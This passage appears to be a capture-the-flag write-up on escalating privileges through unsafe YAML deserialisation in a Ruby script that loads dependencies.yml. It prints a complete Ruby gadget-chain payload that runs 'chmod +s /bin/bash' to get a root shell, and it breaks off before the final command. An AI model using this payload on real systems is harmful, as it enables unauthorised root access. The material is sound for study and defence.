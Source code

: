 ```
            end
        end
    end
end

```

To leverage this ruby script, for executing a privilege excalation attack, we must understand what it contains. First, there is the "yaml" module. This module provides a Ruby interface for data serialization in YAML format. Serialization is the process of translating a data structure or object state into a format that can be stored or transmitted and reconstructed later. RubyGems is the Ruby standard module for publishing and managing third party libraries. The function "update_gems()" is empty and the function "list_from_file" calls a function from the "yaml" module called "load()". 

Let's search the web about the "yaml.load()" function. As we can see, it's a deserialisation function and it converts a YAML string into an object. YAML is a straightforward machine parsable data serialization format designed for human readability and interaction with scripting languages such as Perl and Python. Let's google "yaml.load function vulnerability" too see if we can leverage this function.

These articles describe the vulnerability of the yaml load functions:

https://semgrep.dev/blog/2022/testing-vulnerable-pyyaml-versions
https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

So, in this case YAML deserialisation is the attack vector. In the second article, we can find the way we can structure the "dependencies.yml" file so we can execute bash commands.

```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "chmod +s /bin/bash"
          method_id: :resolve
```

In "git_set" we can specify the bash command. The command "chmod +s /bin/bash" will allow our user to execute "/bin/bash" as the group that owns the file("root"). After creating the file "dependencies.rb" under the user "henry", we can execute:

